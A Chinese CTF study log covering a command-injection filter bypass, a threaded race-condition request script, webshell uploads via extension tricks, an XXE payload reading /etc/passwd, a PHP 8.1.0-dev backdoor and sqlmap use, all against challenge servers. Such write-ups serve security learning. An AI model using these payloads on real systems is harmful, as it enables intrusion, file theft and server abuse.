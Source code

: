 # 题目复现
## What the cow say?
> 十月第一周周报：反引号内字符串会被解析成OS命令

题目过滤了
```
blacklist: blacklist = ['echo', 'cat',  |
| 'tee', ';', '|', '&', '<',              |
| '>','\\','flag'] def waf(string):
```
payload：`tac /f*/f*`
## Select More Courses
第一步直接按题目给的密码本爆破密码就行了
然后选课有提示
> 阿菇的提示：Race against time!

与时间赛跑，所以要同时提交申请扩分时选课
让脚本一直提交扩分就可以正常操作选课那边了
```python
import requests
import threading
 
 
def send_request():
    url = "http://139.224.232.162:30057/api/expand"
    headers = {
        "Accept": "*/*",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
        "Connection": "keep-alive",
        "Content-Length": "23",
        "Content-Type": "application/json",
        "Cookie": "session=MTcwODk0OTU3M3xEWDhFQVFMX2dBQUJFQUVRQUFBcV80QUFBUVp6ZEhKcGJtY01DZ0FJZFhObGNtNWhiV1VHYzNSeWFXNW5EQW9BQ0cxaE5XaHlNREJ0fG4_CpDZzCUnkyxz1S5Zo8-xs6XjUM3eYRhc6tLQaZiF",
        "Host": "139.224.232.162:30057",
        "Origin": "http://139.224.232.162:30057",
        "Referer": "http://139.224.232.162:30057/expand",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0"
    }
    payload = {"username": "ma5hr00m"}
    while True:
        try:
            response = requests.post(url, headers=headers, json=payload)
            print(f"Response: {response.status_code}")
        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
 
 
# 创建50个线程并发发送请求
threads = []
for _ in range(10):
    thread = threading.Thread(target=send_request)
    thread.start()
    threads.append(thread)
# 等待所有线程完成
for thread in threads:
    thread.join()
```
# 刷题
## [SWPUCTF 2021 新生赛]easyupload1.0
![a8fa010747350378807716c9966ae730.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1708955018474-507649cf-f301-4fe1-b494-a94339a1bd6e.png#averageHue=%23cd9a54&clientId=u2d72ddf3-bda9-4&from=paste&height=81&id=u8ee547ab&originHeight=101&originWidth=196&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2714&status=done&style=none&taskId=uc531ed95-0126-4972-a65c-5c3ce7d1f01&title=&width=156.8)
上传图片木马抓包改后缀
![cd9d0c16a0107ecb759aaca0d827d785.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1708955072397-81504e48-c6dd-43f2-b83c-55953f89b29e.png#averageHue=%23f9f8f8&clientId=u2d72ddf3-bda9-4&from=paste&height=370&id=ud8013f63&originHeight=462&originWidth=1004&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=67429&status=done&style=none&taskId=u714e8f3c-a143-4048-9502-6ba4c5a90d5&title=&width=803.2)
蚁剑链接得到shell
![d977f93201933dbe6db5488ee87e5103.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1708955113348-a57c50e0-e4f5-4178-9c17-d51e1ad02adc.png#averageHue=%230d0a0a&clientId=u2d72ddf3-bda9-4&from=paste&height=220&id=ua219cd22&originHeight=275&originWidth=415&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=13731&status=done&style=none&taskId=ubae2f3a4-db21-4e70-b118-1615bb5df90&title=&width=332)
遇到fake flag，最后在环境变量中得到flag
![a08a163705895095b1361a3e7d0a8311.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1708955160405-38e1db68-2acb-48d3-9ec8-dc89c958ab3c.png#averageHue=%23090909&clientId=u2d72ddf3-bda9-4&from=paste&height=299&id=u4c42ac57&originHeight=374&originWidth=1160&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26301&status=done&style=none&taskId=uf1dc079a-6d74-42ad-8568-06a752c7138&title=&width=928)
## [SWPUCTF 2021 新生赛]easyupload2.0
与上题类似，用phtml后缀绕过
![e67b07262c8f53754ea6775f5556fff7.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1708955439241-7a92001c-4b82-4b15-99a2-0f135bc1b84b.png#averageHue=%23faf9f9&clientId=u2d72ddf3-bda9-4&from=paste&height=230&id=u652f1a5b&originHeight=287&originWidth=877&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=32029&status=done&style=none&taskId=ub8e17907-d6c2-4cd1-b1f2-ad96d86885a&title=&width=701.6)
拿到蚁剑shell
![6b8d728dc8963371b8f72b7004b307ca.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1708955463132-d6b7d0e0-145a-4a0d-b3b1-e38f4975df16.png#averageHue=%23080808&clientId=u2d72ddf3-bda9-4&from=paste&height=311&id=u88084269&originHeight=389&originWidth=1179&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=29772&status=done&style=none&taskId=u33fb3128-4c6b-4cbc-bef2-96a2418c5d6&title=&width=943.2)
##  [NCTF 2019]Fake XML cookbook  xxe漏洞
抓包有xml实体
![a60ec5c45a366ae6010384ae5cb19ff4.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278141895-282714cf-fcbe-4a89-9f8a-acf663a181c4.png#averageHue=%23eeeceb&clientId=u0d73e75e-532b-4&from=paste&height=598&id=ue7d51374&originHeight=747&originWidth=1478&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=99153&status=done&style=none&taskId=u7481797b-c7b4-46dc-adc8-abec6c28279&title=&width=1182.4)
打入恶意实体尝试读文件
```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///etc/passwd">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278193000-9f07f315-617d-4b28-b39a-d962a5856681.png#averageHue=%23665742&clientId=u0d73e75e-532b-4&from=paste&height=362&id=u9279ee45&originHeight=453&originWidth=801&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47866&status=done&style=none&taskId=u44dde09e-9ce2-4f8c-8e0f-27ce28b26f9&title=&width=640.8)
读flag
![7e0732ef6e8866db0ef5d87b39e3aea6.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278317034-c3f3ce39-05a4-4d0f-8382-1297e3b40987.png#averageHue=%23948263&clientId=u0d73e75e-532b-4&from=paste&height=264&id=u8061aa06&originHeight=330&originWidth=863&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23404&status=done&style=none&taskId=uc8b4f644-59c5-4aff-8d3d-5ef9d0d8b4b&title=&width=690.4)
# 比赛
## PHP的后门
![edce536faca60d2e774e47153cab226e.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278509648-763b5ec3-5e0c-4880-8098-b45de01e3fb9.png#averageHue=%23e7e6e5&clientId=u0d73e75e-532b-4&from=paste&height=179&id=ud9aaee87&originHeight=224&originWidth=451&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14871&status=done&style=none&taskId=u87f0c6e6-f919-417f-82e1-82162f1d6ad&title=&width=360.8)
看响应包查php版本
![67f76cbe195b8eb3f5497d476b323307.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278594113-711623eb-89bd-436a-bf14-34a6194e2c4f.png#averageHue=%23f6f6f6&clientId=u0d73e75e-532b-4&from=paste&height=139&id=u737cf38b&originHeight=174&originWidth=572&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=8953&status=done&style=none&taskId=u8b775420-2a39-4800-876b-09da833cb3b&title=&width=457.6)
8.1.0-dev漏洞，命令执行成功
![7cd94824d64c253cf8b5d4862c92ed4b.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278756838-3a74db6d-1346-4c65-a06b-074f777ed11c.png#averageHue=%23fdfcfb&clientId=u0d73e75e-532b-4&from=paste&height=306&id=uc48960c5&originHeight=383&originWidth=827&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14757&status=done&style=none&taskId=ud903e718-712d-4483-ac95-487fca3fe59&title=&width=661.6)
读取flag
![e27f3d1f370f0e24d6834403a53a1f6e.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278800885-a6875a44-a43f-49a1-96dd-e2862f4cbf91.png#averageHue=%23fcfbfa&clientId=u0d73e75e-532b-4&from=paste&height=212&id=uea680c60&originHeight=265&originWidth=805&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=13785&status=done&style=none&taskId=u4635d940-acfc-4d5c-8706-5a3c09f17f3&title=&width=644)
## PHP的XXE
xxe漏洞，打开题目看到phpinfo页面，看xml版本
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709278921325-512da9fd-2424-4f2a-b50a-e2d3bb8ba517.png#averageHue=%23a6cecd&clientId=u0d73e75e-532b-4&from=paste&height=38&id=u5a9cc005&originHeight=48&originWidth=551&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1961&status=done&style=none&taskId=u35293f64-1e5e-4c8d-aeb0-16c25c0b799&title=&width=440.8)
存在漏洞直接打入恶意代码得到flag
![450bc20395b11913b56fcb217af83da6.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709279154449-2f98df12-7150-4771-9cd1-154c96833916.png#averageHue=%23fbf9f7&clientId=u0d73e75e-532b-4&from=paste&height=319&id=u825cb1aa&originHeight=399&originWidth=790&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=28233&status=done&style=none&taskId=u861dcf1c-01ec-40e1-85ca-5f19b59074f&title=&width=632)
## Easy_SQLi
sqlmap嗦了
![e1c9dee9712af645473de03f2dbed5cd.png](https://cdn.nlark.com/yuque/0/2024/png/39265092/1709305914804-5052e8c1-b971-428c-8943-ec7ba65a66b0.png#averageHue=%230a0a0a&clientId=ua0bc7150-e9e5-4&from=paste&height=697&id=ufef72d24&originHeight=1255&originWidth=1304&originalType=binary&ratio=1.8000000715255737&rotation=0&showTitle=false&size=149979&status=done&style=none&taskId=u309589d2-aaac-4c85-a45d-f4e6d80cc4b&title=&width=724.4444156576097)
# 总结
开学第一周，来了还是继续学习刷题，还有个qsnctf比赛，开源情报等等事务忙碌，放假因为被拉进村里天天到处走亲戚，在家时间就拿去打sictf了也没能好好学，开学后就显得很匆忙了，一开学选择去nss继续把没打的题刷掉，为qsnctf做做准备捏
